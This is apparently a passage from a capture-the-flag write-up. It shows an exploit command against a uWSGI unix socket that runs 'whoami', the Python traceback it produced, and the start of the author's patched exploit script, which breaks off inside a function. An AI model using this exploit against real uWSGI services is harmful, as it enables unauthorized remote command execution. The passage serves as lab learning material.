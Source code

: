 I tried running the script and I get an error.

```nix
qtc@aeb4525789d8:/tmp$ python3 exploit.py -m unix -u /tmp/uwsgi.socket -c 'whoami'
[*]Sending payload.
Traceback (most recent call last):
  File "exploit.py", line 146, in <module>
    main()
  File "exploit.py", line 143, in main
    print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))
  File "exploit.py", line 110, in curl
    return ask_uwsgi(addr_and_port, mode, var)
  File "exploit.py", line 77, in ask_uwsgi
    s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
  File "exploit.py", line 26, in pack_uwsgi_vars
    pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
  File "exploit.py", line 18, in sz
    if sys.version_info[0] == 3: import bytes
ModuleNotFoundError: No module named 'bytes'
```

So the box doesn't have `bytes` module and we can't do pip install kinds of stuff. 

So I did a few changes in the script.

```python
#!/usr/bin/python

import sys
import socket
import argparse
import binascii
import requests

def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    s = bytes.fromhex(s) if sys.version_info[0] == 3 else binascii.hexlify(s)
    return s[::-1]

def pack_uwsgi_vars(var):
    pk = b''
    for k, v in var.items() if hasattr(var, 'items') else var:
        pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
    result = b'\x00' + sz(pk) + b'\x00' + pk
    return result

def parse_addr(addr, default_port=None):
    port = default_port
    if isinstance(addr, str):
        if addr.isdigit():
            addr, port = '', addr
        elif ':' in addr:
            addr, _, port = addr.partition(':')
    elif isinstance(addr, (list, tuple, set)):
        addr, port = addr
    port = int(port) if port else port
    return (addr or '127.0.0.1', port)

def get_host_from_url(url):
    if '//' in url:
        url = url.split('//', 1)[1]
    host, _, url = url.partition('/')
    return (host, '/' + url)

def fetch_data(uri, payload=None, body=None):
    if 'http' not in uri:
```